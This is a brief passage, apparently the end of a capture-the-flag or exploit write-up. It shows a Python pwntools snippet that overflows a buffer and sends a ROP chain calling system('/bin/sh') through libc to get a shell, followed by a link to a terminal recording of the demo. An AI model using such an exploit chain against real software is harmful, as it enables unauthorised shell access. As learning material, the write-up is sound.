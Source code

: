```py

#################
# get a shell
#################
p.sendline(b"1234")
rop = ROP(libc)
rop.raw(fill_up_buffer)
rop.system(next(libc.search(b'/bin/sh')))
#print(rop.dump())

p.sendline(rop.chain())

p.interactive()
```

## Demo

[![asciicast](https://asciinema.org/a/N8uktcUEMuGsdeLYdcqk7vbRL.svg)](https://asciinema.org/a/N8uktcUEMuGsdeLYdcqk7vbRL)